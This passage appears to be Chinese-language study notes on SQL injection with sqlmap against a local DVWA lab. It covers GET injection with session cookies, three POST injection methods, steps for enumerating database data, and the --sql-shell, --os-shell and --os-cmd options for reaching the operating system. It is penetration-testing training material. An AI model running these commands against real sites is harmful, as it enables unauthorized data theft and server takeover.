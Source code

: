 - 通过 cookie：早期用户名密码是保存在 cookie 当中，不安全；如今不保存在客户端，而保存在服务器端的 session 当中。服务器会给客户端生成一个 session_id，客户端把 session_id 保存在 cookie 当中，在 session 没有过期之前，客户端持有这个 session_id 都可以无需登录访问页面。

  firefox 的插件：Cookiebro / Cookie Quick Manager

  Google Chrome:

  <img src="cookie.png" alt="cookie" style="zoom:50%;" />

  ```bash
  # 要写全网址
  # 指定参数 -p
  sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit" -p id --batch
  sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" -p id --batch --cookie="xxx=xxx;xxx=xxx"
  sqlmap -u "http://192.168.50.129/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit#" -p id --batch --dbms=mysql 
  ```

  <img src="sqlmap-login.png" alt="sqlmap-login" style="zoom:80%;" />

  <img src="sqlmap-login2.png" alt="sqlmap-login2" style="zoom:80%;" />

  其他数据操作同理

  ![](dbs.png)

### POST 方法注入

利用 sqlmap 进行 post 注入的方式有三种：

1. Burpsuite 抓包，然后保存抓取到的内容(提交表单的数据包，含有用户名密码信息)。例如：保存为 post.txt,然后把它放至某个目录下。运行 sqlmap 并使用如下命令：**sqlmap -r post.txt -p id**，这里参数 -r 是让 sqlmap 加载我们的 post 请求 post.txt，-p 指定注入用的参数
2. 自动搜索表单的方式：sqlmap -u "http://192.168.160.1/sqltest/post.php" --forms
3. 指定一个参数的方法：sqlmap -u "http://xxx.xxx.com/Login.asp" --data "n=1&p=1"

参考资料：

- https://hackertarget.com/sqlmap-post-request-injection/
- https://blog.csdn.net/u011781521/article/details/58594941

### 数据获取

1. 猜解当前数据库名
2. 猜解数据库中的表名
3. 猜解表中的字段名
4. 猜解数据

### 提权操作

```mysql
# 与数据库交互
--sql-shell
# 不是所有命令都有

# 与操作系统交互
--os-shell
# 对某些网站目录有写权限才可以成功创建os-shell

--os-cmd=ls /
```
